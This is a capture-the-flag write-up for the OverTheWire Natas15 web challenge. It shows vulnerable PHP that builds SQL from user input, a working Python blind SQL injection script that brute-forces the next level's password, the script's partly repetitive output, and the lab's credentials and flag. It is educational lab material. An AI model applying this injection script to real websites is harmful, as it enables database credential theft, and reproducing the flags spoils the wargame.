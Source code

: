 # CTF Writeup - **OverTheWire Natas14 - Natas15**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas14 - Natas15
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 13-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use inspect element to troubleshoot and find the flag.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas15
Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
URL:      http://natas15.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for username as input.  But we dont know anything about it, So lets input some random names and check it out. 

```bash
Username: natas16
Check Existence
This user exists.
```

Now we see that we get user exists. Lets view the source code. 

```bash
# <?php

# /*
# CREATE TABLE `users` (
#   `username` varchar(64) DEFAULT NULL,
#   `password` varchar(64) DEFAULT NULL
# );
# */

# if(array_key_exists("username", $_REQUEST)) {
#     $link = mysqli_connect('localhost', 'natas15', '<censored>');
#     mysqli_select_db($link, 'natas15');

#     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
#     if(array_key_exists("debug", $_GET)) {
#         echo "Executing query: $query<br>";
#     }

#     $res = mysqli_query($link, $query);
#     if($res) {
#     if(mysqli_num_rows($res) > 0) {
#         echo "This user exists.<br>";
#     } else {
#         echo "This user doesn't exist.<br>";
#     }
#     } else {
#         echo "Error in query.<br>";
#     }

#     mysqli_close($link);
# } else {
# ?>
```

We can see that there is a small piece of code that is executed when we click on submit. That takes out input username and appends it to an sql string and checks if the return value has greater than 1 then its shows the password. The best resource for this challenge is `https://www.youtube.com/watch?v=fQ_Iehcm9OQ`. I would highly recommend watching this tutorial. Now lets write some code based on the idea given in tutorials as shown below.


```bash
import string
import requests

# Credentials and target URL
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
url = "http://natas15.natas.labs.overthewire.org"

# Possible characters (letters + digits)
chars = string.ascii_letters + string.digits
validstr = "This user exists."

# Step 1: Determine the valid characters in the password
valid_password = ""
for char in chars:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(username, password))
    if validstr in r.text:
        valid_password += char
        print("Password Dictionary: {}".format(''.join(valid_password)))

# Step 2: Brute-force the password character by character
actual_password = ""
while len(actual_password) < 32: 
    for char in valid_password:
        temp_password = actual_password + char
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',temp_password,'%','&debug'])
        response = requests.get(uri, auth=(username, password))
        if validstr in response.text:
            actual_password += char
            print(f"Password so far: {actual_password}")
            break

print(f"Password found: {actual_password}")
```

What we are doing here is that we are essentially finding all the characters in the password using the bruteforce approach and blind sql injection which checks if there exists a username with `natas16` and password has `character` with this we will have all the characters in the password. Now we need to determine the order of these characters that is done in the second loop where we build the characters one by one untill we find the right order.  

```bash
# Password Dictionary: c
# Password Dictionary: ce
# Password Dictionary: cef
# Password Dictionary: cefh
# Password Dictionary: cefhi
# Password Dictionary: cefhij
# Password Dictionary: cefhijk
# Password Dictionary: cefhijkm
# Password Dictionary: cefhijkmo
# Password Dictionary: cefhijkmos
# Password Dictionary: cefhijkmost
# Password Dictionary: cefhijkmostu
# Password Dictionary: cefhijkmostuv
# Password Dictionary: cefhijkmostuvD
# Password Dictionary: cefhijkmostuvDE
# Password Dictionary: cefhijkmostuvDEG
# Password Dictionary: cefhijkmostuvDEGK
# Password Dictionary: cefhijkmostuvDEGKL
# Password Dictionary: cefhijkmostuvDEGKLM
# Password Dictionary: cefhijkmostuvDEGKLMP
# Password Dictionary: cefhijkmostuvDEGKLMPQ
# Password Dictionary: cefhijkmostuvDEGKLMPQV
# Password Dictionary: cefhijkmostuvDEGKLMPQVW
# Password Dictionary: cefhijkmostuvDEGKLMPQVWX
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY3
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY34
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY346
# Password so far: h
# Password so far: hP
# Password so far: hPk
# Password so far: hPkj
# Password so far: hPkjK
# Password so far: hPkjKY
# Password so far: hPkjKYv
# Password so far: hPkjKYvi
# Password so far: hPkjKYviL
# Password so far: hPkjKYviLQ
# Password so far: hPkjKYviLQc
# Password so far: hPkjKYviLQct
# Password so far: hPkjKYviLQctE
# Password so far: hPkjKYviLQctEW
# Password so far: hPkjKYviLQctEW3
# Password so far: hPkjKYviLQctEW33
# Password so far: hPkjKYviLQctEW33Q
# Password so far: hPkjKYviLQctEW33Qm
# Password so far: hPkjKYviLQctEW33Qmu
# Password so far: hPkjKYviLQctEW33QmuX
# Password so far: hPkjKYviLQctEW33QmuXL
# Password so far: hPkjKYviLQctEW33QmuXL6
# Password so far: hPkjKYviLQctEW33QmuXL6e
# Password so far: hPkjKYviLQctEW33QmuXL6eD
# Password so far: hPkjKYviLQctEW33QmuXL6eDV
# Password so far: hPkjKYviLQctEW33QmuXL6eDVf
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6
# Password so far: hPkjKYviLQctEW33QmuXL6e
# Password so far: hPkjKYviLQctEW33QmuXL6eD
# Password so far: hPkjKYviLQctEW33QmuXL6eDV
# Password so far: hPkjKYviLQctEW33QmuXL6eDVf
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
# Password found: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```


## Flag

**Flag:** hPkjKYviLQctEW33QmuXL6eDVfMW4sGo


---

## Lessons Learned

It was a bit of challenge for me. I was able to grasp the idead behind the solution very easily. I learnt a lot on how to approach these types of challenges.